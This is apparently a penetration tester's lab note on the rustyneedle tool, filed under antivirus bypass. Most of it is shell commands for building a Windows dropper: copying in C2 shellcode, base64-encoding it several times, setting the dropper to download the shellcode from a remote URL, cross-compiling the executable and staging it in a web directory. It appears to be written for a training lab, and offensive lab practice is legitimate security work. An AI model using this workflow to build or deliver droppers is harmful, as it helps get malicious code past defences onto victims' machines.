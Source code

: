 rustyneedle is a python script used to modify raw shellcode, and provide an executable.

https://codeberg.org/mttaggart/rustyneedle

```
# Clone the repo
git clone https://codeberg.org/mttaggart/rustyneedle.git

# Install rust
sudo apt install rustup -y
rustup default stable

# Set the compilation target, and add it in this case 64 bit Windows
rustup target add x86_64-pc-windows-gnu
```
There's a few things we have to do. We have to install rust, modify the  src/main.rs file to our options

Specifically, modify the number of base64 iterations, and where the shellcode is downloaded from.

Take note of lines 10 and 12
![[notes/Atomic-Notes/4000-TOOLS/4200-AV-BYPASS/4210-rustyneedle/Pasted image 20250529002207.png]]

Now, we need to make our encoded shellcode.
```bash
# Create raw shellcode, like with C2 Mythic. It will be an output option, .bin extension
cd rustyneedle
cp ~/c2/shellcode.bin .

# Encode the shellcode. note that the output file name is note.txt
python3 rustyneedle/encode.py shellcode.bin 3 note.txt

# Take note of where in the dropper we put the downloaded url, and put the note.txt shellcode file there

# Compile the main.rs dropper
cargo build --target x86_64-pc-windows-gnu --release

# Navigate the binary and put it where we want
cp target/x86_64-pc-windows-gnu/release/rustyneedle.exe ~/prolab/cybernetic/web



```


